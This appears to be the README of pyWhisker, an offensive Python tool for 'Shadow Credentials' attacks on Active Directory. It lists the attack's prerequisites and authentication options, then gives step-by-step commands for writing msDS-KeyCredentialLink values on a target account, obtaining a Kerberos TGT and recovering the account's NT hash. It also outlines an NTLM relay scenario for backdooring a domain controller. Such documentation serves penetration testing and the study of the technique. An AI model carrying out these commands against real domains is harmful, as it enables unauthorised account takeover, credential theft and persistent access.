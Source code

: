 # PyWhisker

pyWhisker is a Python equivalent of the original [Whisker](https://github.com/eladshamir/Whisker) made by [Elad Shamir](https://twitter.com/elad_shamir) and written in C#. This tool allows users to manipulate the `msDS-KeyCredentialLink` attribute of a target user/computer to obtain full control over that object.
It's based on [Impacket](https://github.com/SecureAuthCorp/impacket) and on our Python equivalent of [Michael Grafnetter's](https://twitter.com/MGrafnetter) [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) called [PyDSInternals](https://github.com/p0dalirius/pydsinternals).
This tool, along with [Dirk-jan's](https://twitter.com/_dirkjan) [PKINITtools](https://github.com/dirkjanm/PKINITtools) allow for a complete primitive exploitation on UNIX-based systems only.

**Pre-requisites** for this attack are as follows
1. the target Domain Functional Level must be **Windows Server 2016** or above.
2. the target domain must have at least one Domain Controller running Windows Server 2016 or above.
3. the Domain Controller to use during the attack must have its own certificate and keys (this means either the organization must have AD CS, or a PKI, a CA or something alike).
4. the attacker must have control over an account able to write the `msDs-KeyCredentialLink` attribute of the target user or computer account.

Why some pre-reqs?
- Pre-reqs 1 and 2 because the PKINIT features were introduced with Windows Server 2016.
- Pre-req 3 because the DC needs its own certificate and keys for the session key exchange during the `AS_REQ <-> AS_REP` transaction.

A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` will be raised if pre-req 3 is not met.

More information about this "Shadow Credentials" primitive
- [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
- [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

# Usage

pyWhisker supports the following authentications
- (NTLM) Cleartext password
- (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
- (Kerberos) Cleartext password
- (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
- (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Among other things, pyWhisker supports multi-level verbosity, just append `-v`, `-vv`, ... to the command :)

```
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove
```

Below are examples and screenshots of what PyWhisker can do.

## List and get info

PyWhisker has the ability to list existing KeyCredentials. In addition to that, it can unfold the whole structure to show every piece of information that object contains (including the RSA public key paramaters).

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![](./.assets/list_info.png)

## Clear and remove

pyWhisker has the ability to remove specific values or clear the whole attribute.

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![](./.assets/remove.png)

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![](./.assets/clear.png)

## Add new values

pyWhisker has the ability to generate RSA keys, a X509 certificate, a KeyCredential structure, and to write the necessary information as new values of the `msDs-KeyCredentialLink` attribute.
The certificate can be exported in a PFX format (#PKCS12, certificate + private key protected with a password) or in a PEM format (PEM certificate, PEM private key, no password needed).

### Example with the PFX format
```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![](./.assets/add_pfx.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![](./.assets/add_pfx_gettgtnthash.png)

### Example with the PEM format
```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```
![](./.assets/add_pem.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```
![](./.assets/add_pem_gettgtnthash.png)

# Relayed authentication

[A Pull Request]() is currently awaiting approval to include pywhisker's "adding" feature to ntlmrelayx.

![](./.assets/relay.png)

# Useful knowledge

User objects can't edit their own `msDS-KeyCredentialLink` attribute. **Computer objects can**. This means the following scenario could work: trigger an NTLM authentication from DC01, relay it to DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it.

![](./.assets/user_cant_self_edit.png)  

Computer objects can edit their own `msDS-KeyCredentialLink` attribute but **can only add a KeyCredential if none already exists**.

![](./.assets/computers_can_self_edit.png)

If you encounter errors, make sure there is no time skew between your attacker host and the Key Distribution Center (usually the Domain Controller). In order to avoid that error, the certificates are valid 40 years before actual date, and 40 years after.

# Credits and references

Credits to Dirk-Jan for his work on PKINITtools. We initially planned on refactoring Impacket scripts (especially gettgt.py) to implement asymmetric PKINIT pre-authentication for Kerberos. He saved us a huge deal of headaches by writing it before us!
Credits to the whole team behind Impacket and its contributors.
Credits to Elad Shamir who created the original C# tool (Whisker) and to Michael Grafnetter who made DSInternals, a library doing most of Whisker's heavy lifting. He also was the one who made the original Black Hat demo presenting the primitive.
